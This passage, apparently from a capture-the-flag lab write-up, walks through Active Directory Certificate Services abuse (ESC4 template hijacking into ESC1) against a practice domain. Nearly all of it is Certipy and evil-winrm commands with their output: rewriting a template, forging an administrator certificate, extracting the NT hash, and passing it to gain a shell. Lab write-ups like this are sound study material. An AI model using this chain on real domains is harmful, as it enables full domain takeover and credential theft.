        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc4-template-hijacking

### ESC4

```python
certipy-ad template -u 'ca_svc@sequel.htb' -p 'Password123!' -dc-ip '10.129.232.128' -template 'DunderMifflinAuthentication' -write-default-configuration                        
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'DunderMifflinAuthentication.json'
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9cD\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x000\x00\x02\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x00\x00\x14\x00\x94\x00\x02\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

This made the template vulnerable to ESC1

### ESC1

```python
certipy-ad account -u 'ca_svc@sequel.htb' -p 'Password123!' -dc-ip '10.129.232.128' -user 'administrator' read
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'Administrator':
    cn                                  : Administrator
    distinguishedName                   : CN=Administrator,CN=Users,DC=sequel,DC=htb
    name                                : Administrator
    objectSid                           : S-1-5-21-548670397-972687484-3496335370-500
    sAMAccountName                      : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2024-06-08T16:39:50+00:00
    whenChanged                         : 2026-07-23T18:14:00+00:00
```

First i need the administrator SID

```python
certipy-ad req -u 'ca_svc@sequel.htb' -p 'Password123!' -dc-ip '10.129.232.128' -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn 'administrator@sequel.htb' -sid 'S-1-5-21-548670397-972687484-3496335370-500' -dns 'dc01.sequel.htb' -key-size 4096
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'administrator@sequel.htb'
    DNS Host Name: 'dc01.sequel.htb'
[*] Certificate object SID is 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Saving certificate and private key to 'administrator_dc01.pfx'
[*] Wrote certificate and private key to 'administrator_dc01.pfx'
```

```python
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 10.129.232.128                     
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*]     SAN DNS Host Name: 'dc01.sequel.htb'
[*]     SAN URL SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*]     Security Extension SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'administrator@sequel.htb' (administrator@sequel.htb)
    [1] DNS Host Name: 'dc01.sequel.htb' (dc01$@sequel.htb)
> 0
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Now i have the NTLM of the administrator

## Domain Admin

```python
evil-winrm -i sequel.htb -u Administrator -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```
